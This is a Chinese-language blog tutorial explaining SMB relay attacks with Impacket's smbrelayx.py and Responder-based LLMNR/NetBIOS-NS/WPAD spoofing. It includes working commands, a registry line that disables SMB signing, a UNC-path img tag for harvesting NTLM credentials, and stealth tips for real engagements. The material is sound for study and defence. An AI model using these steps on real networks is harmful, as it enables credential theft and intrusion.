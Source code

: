 ```yaml
---
title: "SMB 重放攻击"
date: 2019-07-17T00:00:00+08:00
draft: false
tags: ['smb']
categories: ['内网渗透']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


SMB 重放攻击原理以及利用方式

<!--more-->

## 原理

![smb relay attack](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/2019/smb_relay_attack.jpg)

可以看出, SMB 重放攻击的实质是 Client 本应该向 Attacker 请求的数据包被 Attacker 拿来以请求 Target.

##  重放

在早期的 SMB 重放攻击中, 允许将 Client 请求的数据包重放至 Client 本身, 这就造成了 `MS08-068` 漏洞, 但漏洞在 2008 R2 中已经被修复.

微软在 Server 系列的系统中默认开启 SMB 签名以防止重放攻击, 而个人系统诸如 Windows 7, Windows 10 则默认关闭签名.

同时, Windows 在发送 SMB 请求时, 如未手动指定凭据, 将会以当前用户的身份发送 SMB 认证请求.

### Impacket

利用 Impacket 包中的 `smbrelayx.py` 和 `ntlmrelayx.py` 可实现 SMB 重放攻击.

注意后者与前者在 SMB 重放中并无本质区别, 后者支持 SMB v2 协议, 不过在实际测试中两者均可在 2008 R2 系统上利用成功, 这里以 `smbrelayx.py` 为例.

`-h` 参数指定重放主机的 IP 地址, 留空则为重放至 Client 本身.

`-e` 参数指定重放成功后要执行的程序, `-c` 参数指定重放成功后要执行的命令, 留空则默认为导出 Hash.

对 2003 的利用方式, 即 `MS08-068`

```
./smbrelayx.py
```

该命令将在 Attacker 上启动 HTTP (用于 WPAD) 和 SMB 服务, 开放 80, 445 端口, 并将 SMB 数据包重放至来源主机.

此时在 2003 中向 Attacker 发送 SMB 请求, 如 `dir \\ATTACKER\c$`, 将会自动导出 NTLM Hash (非 Net-NTLM Hash).

如果要重放至 2008 R2 主机上, 则需要指定 `-h` 参数为其 IP 地址并禁用 SMB 签名.

```
reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v RequireSecuritySignature /t REG_DWORD /d 0 /f
```

```
./smbrelayx.py -h 192.168.1.100
```

此时在任意系统上对 Attacker 发送 SMB 请求, 如果凭据正确, 将会自动导出 2008 R2 的 NTLM Hash.

## 欺骗

那么就有一个问题, 如何让 Client 的流量经过 Attacker 呢?

1. 可以通过在 Client 经常访问的 Web 网站上插入 UNC 路径, 例如 `<img src="\\192.168.1.2\logo.jpg" />` 以进行 SMB 请求 (当前用户凭据).

2. 进行 NetBIOS-NS/LLMNR/WPAD 欺骗.

其中 NetBIOS-NS 和 LLMNR 对局域网内的主机名所对应的 IP 地址进行广播查询.

WPAD 则让浏览器能够自动发现代理服务器 (在 Internet 选项中勾选 "自动检测设置") 并下载配置文件 (PAC).

局域网内对主机名所对应的 IP 地址进行查询时, 会依照 `Hosts - DNS/Cache - LLMNR/NetBIOS-NS` 的顺序依次查询.

例如查询主机名 TEST 时, 主机首先会从 Hosts 文件里查找有没有其对应的 IP 地址, 然后从本地 DNS  缓存和 DNS 服务器上进行请求, 如仍未查询到, 则在局域网内发起 LLMNR/NetBIOS-NS 广播请求, 这时候如果存在 TEST 主机, 它就会回应该请求并给出 IP 地址.

而如果 TEST 主机不存在, 将会在一段时间内持续发送广播, 如果 Attacker 回应广播请求, 那么查询主机就会认为 Attacker 就是 TEST, 并连接至 Attacker 的 IP 地址.

注意如果 Attacker 赶在 TEST 主机的前面回应请求的话, 查询主机也会认为 Attacker 就是 TEST, 但自己在实际测试中, 效果并不理想.

默认 WPAD 服务器的主机名为 WPAD, 也能通过以上协议进行主机名欺骗.

### Responder

利用 Responder 来进行 LLMNR/NetBIOS-NS 以及 WPAD 欺骗.

```
responder -I eth0 -rwdv
```

`-r` `-d` 参数将会使 Attacker 回应更多的 NetBIOS-NS 请求包, 但可能会影响正常访问.

`-w` 参数使 Responder 开启 WPAD 代理服务器, 在不影响 HTTP 正常访问的情况下监听用户所浏览的 URL 及 Cookies 等信息, 也能获取到 Net-NTLM Hash.

另外还有 `-A` 参数指定 Responder 仅仅监听请求, 而不进行欺骗, 这对于管理员使用习惯的分析是一个很不错的方式.

至此在 Client 中对不存在的主机名发送请求, Responder 将会回应请求并获取到 Client 发送的 Net-NTLM Hash. 同时也会使 Client 启用 Responder 的 WPAD 代理服务器并对浏览内容进行持续监听.

注意在上文中也说过, 对局域网中已存在的主机名进行欺骗也能进行, 不过效果并不理想, 实际测试中仅在 Windows Server 2003 上测试成功 (欺骗 2003 机器的主机名).

### Responder + Impacket

Impacket 中的 `smbrelayx.py` 和 `ntlmrelayx.py` 不带有欺骗功能, 故需要与 Responder 配合使用以达到让流量经过 Attacker 的目的.

在 `Responder.conf` 中关闭 SMB 和 HTTP HTTPS 以及其它不需要的服务. 之后启动 Responder.

```
responder -I eth0 -rdv
```

启动 `smbrelayx.py`

```
./smbrelayx.py -h 192.168.1.100
```

这时在 Client 中对不存在的主机名发送 SMB 请求, Responder 会回应请求并指定 Attacker 的 IP 地址, 之后 Client 发送的 SMB 数据包会通过 `smbrelayx.py` 重放到指定的 IP 地址, 认证成功后导出 Target 的 Hash.

如果指定 `-w` 参数, Responder 将对 WPAD 进行主机名欺骗, 并让 Client 浏览器的代理配置地址设置为 Attacker 主机的 80 端口. 当 Client 首次浏览网页时, 会弹出基于 NTLM 协议的登录窗口, 用户输入账户凭据后便可继续浏览网页. 同时 `smbrelayx.py` 将接受账户凭据并重放 SMB 数据包至 Target, 认证成功后导出 Target 的 NTLM Hash.

## 总结

几种利用方式.

```
Client <---> Attacker (MS08-068) Impacket
Client ---> Attacker <---> Target (SMB Relay Attack) Impacket
Client <---> Attacker (LLMNR/NetBIOS-NS/WPAD Attack) Responder
Client ---> Attacker  <---> Target (LLMNR/NetBIOS-NS/WPAD) Responder + Impacket
```

一句话概括, 想要 SMB 重放, 就必须得用 Impacket, 想要流量经过自己, 就必须得用 Responder (或是 Web 服务器 + UNC 路径). 如果你是第一次在实战中利用这个漏洞, 建议先单独开 Responder 收集 Net-NTLM Hash 和浏览信息, 或者仅仅使用 `-A` 参数, 先摸清管理员的日常使用习惯, 再根据实际情况决定是否使用 Impacket.

`smbrelayx.py` 在 2008 R2 系统中的利用, 除非指定登录凭据, 否则就会拿当前用户的凭据进行登录, 这就需要 Client 和 Target 的用户凭据完全相同, 工作组中可能很少遇到, 但在域内环境中这和域控和域内计算机的关系非常类似, 域管理员在一般情况下可以直接登录域内的计算机. 利用这一点加上 UNC 路径可以更好的隐蔽, 同时又达到了欺骗的效果.

Responder 对已有主机名的欺骗效果不太理想, 事实上 Metasploit 中 Spoof 的一系列模块也是这样, 不过仔细想想, 这样也可以使得内网中的资源可以被正常访问, 也就提高了隐蔽性. 这里有一个利用场景: 内网中架设了防火墙, 如果计算机试图访问被防火墙拦截了的网址呢?

另外 Responder 中提供了自定义 PAC 的选项, 可以通过在某些网页弹出登录框的方式达到欺骗的效果 (例如管理员网站后台).

文章虽然有点长, 但大部分篇幅都在讲述如何进行 "欺骗" 而不是 "重放", 如果单纯去理解 SMB 重放攻击的话, 那就是一句话: 将别人的 SMB 数据包请求拿过来给自己用. 重放攻击和 SMB 签名息息相关, 理解了签名就会对重放攻击有一个比较清晰的认识了.
